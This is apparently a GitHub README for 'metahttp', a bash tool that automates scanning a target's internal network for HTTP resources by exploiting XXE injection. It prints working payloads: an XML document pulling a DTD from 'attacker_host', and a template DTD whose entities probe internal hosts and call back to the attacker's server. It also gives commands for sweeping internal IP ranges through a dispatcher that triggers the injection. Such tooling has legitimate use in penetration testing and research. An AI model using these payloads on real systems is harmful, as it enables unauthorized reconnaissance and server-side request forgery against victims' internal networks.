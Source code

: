 # metahttp

A bash script that automates the scanning of a target network for HTTP resources through XXE

<p align="center">
  <img width="680" src="img/meta.gif"/>
</p>

## How it works

Initially, the attacker triggers the XXE to have the target application load the DTDs from the server hosted by metahttp.

This can be done for example by having the victim application parse the following XML document:
```xml
<!DOCTYPE r SYSTEM "http://attacker_host:8080/serveme.dtd"><r></r>
```

metahttp receives the request and responds with the following template DTD:
```xml
<!ENTITY % test_target SYSTEM '${target_protocol}://${target_ip}:${target_port}${target_path}'>
<!ENTITY % callback SYSTEM 'http://${server_hostname}:${http_callback_port}/${callback_path_prefix}${target_ip}_${target_port}'>
<!ENTITY % trigger '%test_target;%callback;'>
%trigger;
```

After receiving the DTD, the XML parser will attempt to substitute the `trigger` parameter entity with its value.
The `trigger` parameter entity includes both `test_target` and `callback`. Now here we rely on the fact that XML parsers will normally process the parameter entities one by one. In case the substitution of an entity fails, they will not proceed with the substitution of the subsequent entities. So now, if we receive a callback to our server, it means that the substitution of the `callback` parameter entity was initiated which with its turn means that the resource pointed by the `test_target` exists.

The above procedure is repeated for all the provided hosts/ports. Since there might be a big number of hosts/ports combinations, the step where the attacker has to trigger the XXE on the target server is automated  through the use of the "dispatcher". The dispatcher is an executable passed to metahttp through the -x option and is responsible for triggering the XXE on the target server. Couple of examples are provided in the dispatcher_examples folder.

## Usage
1. Local testing with a Java app on docker:
```bash
./metahttp.sh -T <(echo dockerhost) -p 80 -x ./dispatcher_examples/docker_java.sh -a /
```

2. Scanning the internal network of a target for a server hosting the resource /path/unique/to/a/service:
```bash
./metahttp.sh -t 10.10.0.0/24,10.20.0.0-10.20.0.15 -p 80,8000-8080,8983 -x ./dispatcher_examples/target_curl.sh -a /path/unique/to/a/service
```

3. More information on the options
```bash
./metahttp.sh --help
```
